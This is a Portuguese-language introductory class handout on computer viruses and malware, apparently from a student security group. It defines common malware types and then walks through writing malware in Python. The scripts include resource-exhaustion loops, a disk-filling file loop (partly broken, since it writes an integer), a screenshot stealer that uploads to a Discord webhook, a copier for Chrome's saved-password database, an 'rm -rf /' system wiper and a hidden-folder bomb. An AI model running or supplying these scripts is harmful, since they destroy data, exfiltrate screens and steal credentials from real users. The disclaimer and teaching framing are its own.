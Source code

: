 
# Introdução a virus e malwares

## O que é um vírus de computador?

"Um vírus de computador é um programa malicioso que se propaga infectando outros programas e arquivos. Ele pode se espalhar por meio de anexos de e-mail, downloads de arquivos, pen drives e outros dispositivos de armazenamento. Os vírus de computador podem causar danos ao sistema operacional, roubar informações pessoais e até mesmo danificar o hardware do computador." (Fonte: [Kaspersky](https://www.kaspersky.com.br/resource-center/threats/computer-viruses))

"Virus é um arquivo que quando executado ele vai prejudicar seu computador de alguma forma." (Fonte: Arial 15, Maraba)

## Tipos de vírus

### Worms

Os worms são programas maliciosos que se propagam automaticamente pela rede, explorando vulnerabilidades em sistemas operacionais e softwares. Eles podem se espalhar rapidamente e causar danos significativos a computadores e redes.

### Cavalos de Troia (Trojans)

Os cavalos de Troia são programas maliciosos que se disfarçam de software legítimo para enganar os usuários. Eles podem roubar informações pessoais, instalar outros malwares e abrir portas para invasores.

### Ransomware

O ransomware é um tipo de malware que criptografa arquivos e exige um resgate para liberar o acesso aos dados. Ele pode se espalhar por e-mails, downloads maliciosos e vulnerabilidades de software.

### Spyware

O spyware é um tipo de malware que monitora as atividades do usuário sem o seu consentimento. Ele pode coletar informações pessoais, como senhas, histórico de navegação e dados bancários.

### Adware

O adware é um tipo de malware que exibe anúncios indesejados no computador do usuário. Ele pode causar lentidão no sistema, redirecionar para sites maliciosos e coletar informações de navegação.

### Botnets

As botnets são redes de computadores infectados controlados por um invasor. Elas podem ser usadas para enviar spam, ataques de negação de serviço (DDoS) e roubo de informações.

### RAT (Remote Access Trojan - Cavalo de Troia de Acesso Remoto)

O RAT é um tipo de malware que permite ao invasor controlar remotamente o computador da vítima. Ele pode capturar imagens da tela, gravar áudio, roubar arquivos e executar comandos no sistema.

Esse malware também é chamado de Remote Administration Tools (Ferramenta de Administração Remota).

### Keylogger

O keylogger é um tipo de malware que registra as teclas digitadas pelo usuário, capturando senhas, mensagens e outras informações confidenciais. Ele pode ser usado para roubo de identidade e espionagem.

## Como se proteger de vírus e malwares?

**Não seja burro!!**


## Vamos criar o nosso

Agora que entendemos um pouco sobre vírus e malwares, vamos criar o nosso próprio malware!

Como essa é uma aula introdutória, vamos criar um malware simples

**DISCLAIMER:** Essa aula é apenas para fins educacionais e não deve ser usada para prejudicar outras pessoas. O uso de malware é ilegal e pode resultar em consequências legais graves. ;)

### Como poderia ser um simples malware?

Bom, como eu disse, malwares são programas maliciosos que podem causar danos ao sistema operacional, roubar informações pessoais e até mesmo danificar o hardware do computador. Então, vamos fazer algo simples, um programa que apenas trava o computador. O jeito mais simples de fazer isso é criar um loop infinito que consome toda a CPU.

```python
while True:
    pass
```

Esse código em Python cria um loop infinito que não faz nada, apenas consome recursos do computador. Se você executar esse código em um computador, ele vai travar e você terá que reiniciá-lo para recuperar o controle. Mas se por exemplo esse codigo for feito no vscode ou qualquer outra IDE, a IDE vai travar e você terá que fechar a IDE e abrir novamente, mas o computador não.

Bom, ja vimos que um loop infinito pode fazer um leve dano, vamos melhora-lo um pouco.

```python
i = 0
while True:
    i += 1
```

Agora, o loop infinito incrementa uma variável a cada iteração. Isso consome mais recursos do computador e pode causar lentidão no sistema. Tem alguma ideia de como melhorar? 

```python
i = 0
while True:
    i += 1
    print(i)
```

Agora, o loop infinito imprime o valor da variável a cada iteração. Isso pode causar um consumo ainda maior de recursos e travar o sistema. Mas, o que pode ser melhor que um print? Ah sim, arquivos...

```python
i = 0
while True:
    i += 1
    with open(f'arquivo_{i}.txt', 'w') as f:
        f.write('InsperSec')
```

Ok, agora temos um arquivo infinito, mas ele vai demorar muito para fazer um dano significativo. Vamos melhorar isso.

```python
i = 0
while True:
    i += 1
    with open(f'arquivo_{i}.txt', 'w') as f:
        f.write(i**i)
```

Agora sim, o arquivo vai crescer exponencialmente e consumir cada vez mais espaço em disco. Isso pode causar uma lentidão significativa no sistema e até mesmo travá-lo. Mas, ainda podemos melhorar...

```python
import os

i = 0
while True:
    i += 1
    with open(f'arquivo_{i}.txt', 'w') as f:
        f.write(i**i)
    os.system(f'rm arquivo_{i}.txt')
```

Agora, o malware cria um arquivo exponencialmente crescente e, em seguida, o exclui. Isso pode causar um grande consumo de recursos e danos ao sistema de arquivos.

Dar danos no computador é legal, mas e se quisermos roubar informações pessoais? Vamos criar um malware que captura a tela do usuário!

```python
import pyautogui
import requests

discord_webhook = 'https://discord.com/api/webhooks/1234567890/ABCDEFGHIJKLMN'

def send_screenshot():
    screenshot = pyautogui.screenshot()
    screenshot.save('screenshot.png')
    files = {'file': open('screenshot.png', 'rb')}
    requests.post(discord_webhook, files=files)

send_screenshot()
```


Bom, ja vimos que temos muito potencial, mas e se quisermos fazer algo mais sofisticado? Vamos criar um malware que rouba senhas do navegador!

```python
import os
import shutil

def steal_passwords():
    path = os.path.expanduser('~') + '/AppData/Local/Google/Chrome/User Data/Default/Login Data'
    shutil.copy(path, 'senhas.db')

steal_passwords()

```

Agora você tem noção de como um malware pode ser perigoso. Por exemplo, e se fizermos algo que pode deletar completamente o sistema operacional?

```python
import os

def delete_system():
    os.system('rm -rf /')

delete_system()
```

Ok, isso sim é um malware perigoso. Ele deleta todos os arquivos do sistema operacional, causando uma perda irreparável de dados.

Para uma primeira aula com virus e malwares, acho que já é o suficiente. Mas como prometido, eu vou mostrar um virus engracado que eu fiz. Ele cria pastas infinitas dentro de um diretorio. E ainda por cima, ele esconde as pastas com o atributo de sistema.

```python
import os

def create_folders():
    i = 0
    while True:
        i += 1
        os.mkdir(f'pasta_{i}')
        os.system(f'attrib +s +h pasta_{i}')

create_folders()
```